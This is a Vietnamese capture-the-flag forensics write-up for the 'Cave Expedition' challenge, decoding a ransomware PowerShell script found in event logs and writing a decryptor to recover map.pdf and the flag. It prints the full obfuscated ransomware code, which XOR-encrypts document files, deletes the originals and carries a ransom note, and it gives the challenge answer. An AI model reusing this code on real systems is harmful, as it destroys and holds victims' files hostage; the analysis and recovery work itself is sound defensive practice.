




# _Cave Expedition_ _(FORSENSICS)_


Bài cho tất cả các folder `LOG` chứa rất nhiều tệp

Dùng tool Evtxcmd để trích xuất hết ra csv hoặc json rồi ngồi lọc thôi



Mình đã ngồi lọc hết các log dư thừa, chỉ giữ lại một số lệnh powershell thực thi

Ví dụ



Tiếp theo là trích xuất hết đoạn nằm trong commandline khá giống base64 rồi đem đi decode ra được đoạn mã ps1 sau

```powershell
$k34Vm = "Ki50eHQgKi5kb2MgKi5kb2N4ICoucGRm"
$m78Vo = "LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLQpZT1VSIEZJTEVTIEhBVkUgQkVFTiBFTkNSWVBURUQgQlkgQSBSQU5TT01XQVJFCiogV2hhdCBoYXBwZW5lZD8KTW9zdCBvZiB5b3VyIGZpbGVzIGFyZSBubyBsb25nZXIgYWNjZXNzaWJsZSBiZWNhdXNlIHRoZXkgaGF2ZSBiZWVuIGVuY3J5cHRlZC4gRG8gbm90IHdhc3RlIHlvdXIgdGltZSB0cnlpbmcgdG8gZmluZCBhIHdheSB0byBkZWNyeXB0IHRoZW07IGl0IGlzIGltcG9zc2libGUgd2l0aG91dCBvdXIgaGVscC4KKiBIb3cgdG8gcmVjb3ZlciBteSBmaWxlcz8KUmVjb3ZlcmluZyB5b3VyIGZpbGVzIGlzIDEwMCUgZ3VhcmFudGVlZCBpZiB5b3UgZm9sbG93IG91ciBpbnN0cnVjdGlvbnMuCiogSXMgdGhlcmUgYSBkZWFkbGluZT8KT2YgY291cnNlLCB0aGVyZSBpcy4gWW91IGhhdmUgdGVuIGRheXMgbGVmdC4gRG8gbm90IG1pc3MgdGhpcyBkZWFkbGluZS4KLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLQo="

$a53Va = "NXhzR09iakhRaVBBR2R6TGdCRWVJOHUwWVNKcTc2RWl5dWY4d0FSUzdxYnRQNG50UVk1MHlIOGR6S1plQ0FzWg=="
$b64Vb = "n2mmXaWy5pL4kpNWr7bcgEKxMeUx50MJ"

$e90Vg = @{}
$f12Vh = @{}

$c56Ve = a12Vc $a53Va
$d78Vf = a12Vc $b64Vb

function a12Vc {
    param([string]$a34Vd)
    return [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($a34Vd))
}

For ($x = 65; $x -le 90; $x++) {
    $e90Vg[([char]$x)] = if($x -eq 90) { [char]65 } else { [char]($x + 1) }
}

function n90Vp {
     [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($m78Vo))
}

function l56Vn {
    return (a12Vc $k34Vm).Split(" ")
}

For ($x = 97; $x -le 122; $x++) {
    $e90Vg[([char]$x)] = if($x -eq 122) { [char]97 } else { [char]($x + 1) }
}

For ($x = 48; $x -le 57; $x++) {
    $e90Vg[([char]$x)] = if($x -eq 57) { [char]48 } else { [char]($x + 1) }
}

$e90Vg.GetEnumerator() | ForEach-Object {
    $f12Vh[$_.Value] = $_.Key
}

function l34Vn {
    param([byte[]]$m56Vo, [byte[]]$n78Vp, [byte[]]$o90Vq)
    $p12Vr = [byte[]]::new($m56Vo.Length)
    for ($x = 0; $x -lt $m56Vo.Length; $x++) {
        $q34Vs = $n78Vp[$x % $n78Vp.Length]
        $r56Vt = $o90Vq[$x % $o90Vq.Length]
        $p12Vr[$x] = $m56Vo[$x] -bxor $q34Vs -bxor $r56Vt
    }
    return $p12Vr
}

function s78Vu {
    param([byte[]]$t90Vv, [string]$u12Vw, [string]$v34Vx)

    if ($t90Vv -eq $null -or $t90Vv.Length -eq 0) {
        return $null
    }

    $y90Va = [System.Text.Encoding]::UTF8.GetBytes($u12Vw)
    $z12Vb = [System.Text.Encoding]::UTF8.GetBytes($v34Vx)
    $a34Vc = l34Vn $t90Vv $y90Va $z12Vb

    return [Convert]::ToBase64String($a34Vc)
}

function o12Vq {
    param([switch]$p34Vr)

    try {
        if ($p34Vr) {
            foreach ($q56Vs in l56Vn) {
                $d34Vp = "dca01aq2/"
                if (Test-Path $d34Vp) {
                    Get-ChildItem -Path $d34Vp -Recurse -ErrorAction Stop |
                        Where-Object { $_.Extension -match "^\.$q56Vs$" } |
                        ForEach-Object {
                            $r78Vt = $_.FullName
                            if (Test-Path $r78Vt) {
                                $s90Vu = [IO.File]::ReadAllBytes($r78Vt)
                                $t12Vv = s78Vu $s90Vu $c56Ve $d78Vf
                                [IO.File]::WriteAllText("$r78Vt.secured", $t12Vv)
                                Remove-Item $r78Vt -Force
                            }
                        }
                }
            }
        }
    }
    catch {}
}

if ($env:USERNAME -eq "developer56546756" -and $env:COMPUTERNAME -eq "Workstation5678") {
    o12Vq -p34Vr
    n90Vp
}
```
Decode base64 hàm `k34Vm` và `m78Vo` ra được thông điệp của attacker


Giờ sẽ đi vào phân tích kĩ đoạn pws trên

Chương trình thực hiện mã hóa Xor 2 lần với 2 key bị base64 encrypt

```powershell
$a53Va = "NXhzR09iakhRaVBBR2R6TGdCRWVJOHUwWVNKcTc2RWl5dWY4d0FSUzdxYnRQNG50UVk1MHlIOGR6S1plQ0FzWg=="
$b64Vb = "n2mmXaWy5pL4kpNWr7bcgEKxMeUx50MJ"
```

Data được lấy ở dạng byte từ các file office, cụ thể ở đây mình nhận được là file map.pdf.secured
- Thực hiện việc Xor data với key1 là `a53Va`
- Tiếp theo lấy data vừa rồi xor tiếp với key2 là `b64Vb`
- Cuối cùng là base64 `encoded`, lưu file với đuôi `.sercured` và xóa file gốc ban đầu

Script giải mã:

```powershell
# Định nghĩa hàm giải mã XOR
function Decode-Xor {
    param([byte[]]$data, [byte[]]$key1, [byte[]]$key2)
    $result = [byte[]]::new($data.Length)
    for ($i = 0; $i -lt $data.Length; $i++) {
        $k1 = $key1[$i % $key1.Length]
        $k2 = $key2[$i % $key2.Length]
        $result[$i] = $data[$i] -bxor $k1 -bxor $k2
    }
    return $result
}

# Khóa từ mã nguồn
$a53Va = "NXhzR09iakhRaVBBR2R6TGdCRWVJOHUwWVNKcTc2RWl5dWY4d0FSUzdxYnRQNG50UVk1MHlIOGR6S1plQ0FzWg=="
$b64Vb = "n2mmXaWy5pL4kpNWr7bcgEKxMeUx50MJ"
$c56Ve = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($a53Va))  # Chuỗi khóa 1
$d78Vf = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($b64Vb))  # Chuỗi khóa 2

# Chuyển khóa thành byte
$key1Bytes = [Text.Encoding]::UTF8.GetBytes($c56Ve)
$key2Bytes = [Text.Encoding]::UTF8.GetBytes($d78Vf)

# Đường dẫn đến file trong thư mục cố định
$securedFile = "C:\Users\EM SUN\Downloads\forensics_cave_expedition\map.pdf.secured"
$outputFile = "C:\Users\EM SUN\Downloads\forensics_cave_expedition\map_decrypted.pdf"

# Kiểm tra file tồn tại
if (-not (Test-Path $securedFile)) {
    Write-Host "Lỗi: Không tìm thấy file 'map.pdf.secured' tại '$securedFile'"
    Write-Host "Vui lòng kiểm tra lại đường dẫn hoặc tên file."
    exit
}

try {
    # Đọc file .secured
    $base64Content = [IO.File]::ReadAllText($securedFile)
    $encryptedBytes = [Convert]::FromBase64String($base64Content)

    # Giải mã
    $decryptedBytes = Decode-Xor $encryptedBytes $key1Bytes $key2Bytes

    # Lưu file PDF
    [IO.File]::WriteAllBytes($outputFile, $decryptedBytes)
    Write-Host "Đã giải mã file thành công. Kết quả lưu tại: $outputFile"
} catch {
    Write-Host "Lỗi trong quá trình giải mã: $($_.Exception.Message)"
}
```

Mở powershell chạy script là done



```
HTB{Dunl0rn_dRAk3_LA1r_15_n0W_5AF3}
```


